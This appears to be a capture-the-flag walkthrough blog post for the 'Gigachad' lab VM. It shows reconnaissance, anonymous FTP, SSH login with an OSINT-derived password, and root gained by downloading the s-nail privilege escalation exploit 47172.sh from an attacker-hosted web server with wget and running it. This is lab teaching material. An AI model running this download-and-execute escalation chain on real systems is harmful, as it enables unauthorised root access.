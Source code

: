 ```yaml
---
title: "Gigachad CTF walkthrough"
description: "Gigachad CTF walkthrough"
layout: post
---
```


GIGACHAD

nmap
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctfs/gigachad]
└─$ nmap -p- -sV 192.168.56.151
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-31 22:42 EDT
Nmap scan report for 192.168.56.151
Host is up (0.0092s latency).
Not shown: 65532 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
{% endhighlight %}

{% highlight text %}
robots.txt
User-agent: *
Disallow: /kingchad.html
{% endhighlight %}

{% highlight terminal %}
┌──(kali㉿kali)-[~/ctfs/gigachad]
└─$ ftp 192.168.56.151                                                      130 ⨯
Connected to 192.168.56.151.
220 (vsFTPd 3.0.3)
Name (192.168.56.151:kali): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-r-xr-xr-x    1 1000     1000          297 Feb 07 17:33 chadinfo
226 Directory send OK.
ftp> get chadinfo
local: chadinfo remote: chadinfo
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for chadinfo (297 bytes).
226 Transfer complete.
297 bytes received in 0.00 secs (87.0465 kB/s)
ftp> 
{% endhighlight %}

{% highlight terminal %}
┌──(kali㉿kali)-[~/ctfs/gigachad]
└─$ cat chadinfo
why yes,
#######################
username is chad
???????????????????????
password?
!!!!!!!!!!!!!!!!!!!!!!!
go to /drippinchad.png
{% endhighlight %}

A reverse image search of drippinchad.png shows that the place is called the maidens 
tower in turkey. 

logging in with chad:maidenstower
{% highlight terminal %}                                                             
┌──(kali㉿kali)-[~/ctfs/gigachad]
└─$ ssh chad@192.168.56.151
chad@192.168.56.151's password: 
Linux gigachad 4.19.0-13-amd64 #1 SMP Debian 4.19.160-2 (2020-11-28) x86_64
 
The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Mar 31 22:15:12 2021 from 192.168.56.101
chad@gigachad:~$
{% endhighlight %}
SUID bins
{% highlight terminal %}
chad@gigachad:~$ find / -perm -u=s -type f 2>/dev/null 
/usr/lib/openssh/ssh-keysign
/usr/lib/s-nail/s-nail-privsep
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/bin/passwd
/usr/bin/mount
/usr/bin/chfn
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/su
/usr/bin/gpasswd
/usr/bin/chsh
{% endhighlight %}
We use searchsploit look for exploits for the installed s-nail program: 
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctfs]
└─$ searchsploit s-nail                 
----------------------------------------------------- ---------------------------------
 Exploit Title                                       |  Path
----------------------------------------------------- ---------------------------------
S-nail < 14.8.16 - Local Privilege Escalation        | multiple/local/47172.sh
----------------------------------------------------- ---------------------------------
Shellcodes: No Results

Preparing the exploit: 
┌──(kali㉿kali)-[~/ctfs/gigachad]
└─$ searchsploit -m multiple/local/47172.sh
  Exploit: S-nail < 14.8.16 - Local Privilege Escalation
      URL: https://www.exploit-db.com/exploits/47172
     Path: /usr/share/exploitdb/exploits/multiple/local/47172.sh
File Type: POSIX shell script, ASCII text executable, with CRLF line terminators

Copied to: /home/kali/ctfs/gigachad/47172.sh
{% endhighlight %}
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctfs/gigachad]
└─$ dos2unix 47172.sh 
dos2unix: converting file 47172.sh to Unix format...
{% endhighlight %}
Getting the exploit to the victim machine: 
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctfs/gigachad]
└─$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
192.168.56.151 - - [01/Apr/2021 10:34:48] "GET /47172.sh HTTP/1.1" 200 -

chad@gigachad:~$ wget http://192.168.56.101:8000/47172.sh
chad@gigachad:~$ chmod +x 47172.sh 
chad@gigachad:~$ ./47172.sh 

[.] Race #833 of 1000 ...
[+] got root! /var/tmp/.sh (uid=0 gid=0)
[.] Cleaning up...
[+] Success:
-rwsr-xr-x 1 root root 14424 Apr  1 09:40 /var/tmp/.sh
[.] Launching root shell: /var/tmp/.sh
# ls
47172.sh  ftp  user.txt
# id
uid=0(root) gid=0(root) groups=0(root),1000(chad)
{% endhighlight %}

Getting the root flag:
{% highlight terminal %}
# cat root.txt
flag 2/2
░░░░░░▄▄▄▄▀▀▀▀▀▀▀▀▄▄▄▄▄▄▄
░░░░░█░░░░░░░░░░░░░░░░░░▀▀▄
░░░░█░░░░░░░░░░░░░░░░░░░░░░█
░░░█░░░░░░▄██▀▄▄░░░░░▄▄▄░░░░█
░▄▀░▄▄▄░░█▀▀▀▀▄▄█░░░██▄▄█░░░░█
█░░█░▄░▀▄▄▄▀░░░░░░░░█░░░░░░░░░█
█░░█░█▀▄▄░░░░░█▀░░░░▀▄░░▄▀▀▀▄░█
░█░▀▄░█▄░█▀▄▄░▀░▀▀░▄▄▀░░░░█░░█
░░█░░░▀▄▀█▄▄░█▀▀▀▄▄▄▄▀▀█▀██░█
░░░█░░░░██░░▀█▄▄▄█▄▄█▄▄██▄░░█
░░░░█░░░░▀▀▄░█░░░█░█▀█▀█▀██░█
░░░░░▀▄░░░░░▀▀▄▄▄█▄█▄█▄█▄▀░░█
░░░░░░░▀▄▄░░░░░░░░░░░░░░░░░░░█
░░▐▌░█░░░░▀▀▄▄░░░░░░░░░░░░░░░█
░░░█▐▌░░░░░░█░▀▄▄▄▄▄░░░░░░░░█
░░███░░░░░▄▄█░▄▄░██▄▄▄▄▄▄▄▄▀
░▐████░░▄▀█▀█▄▄▄▄▄█▀▄▀▄
░░█░░▌░█░░░▀▄░█▀█░▄▀░░░█
░░█░░▌░█░░█░░█░░░█░░█░░█
░░█░░▀▀░░██░░█░░░█░░█░░█
░░░▀▀▄▄▀▀░█░░░▀▄▀▀▀▀█░░█

congratulations!
{% endhighlight %}
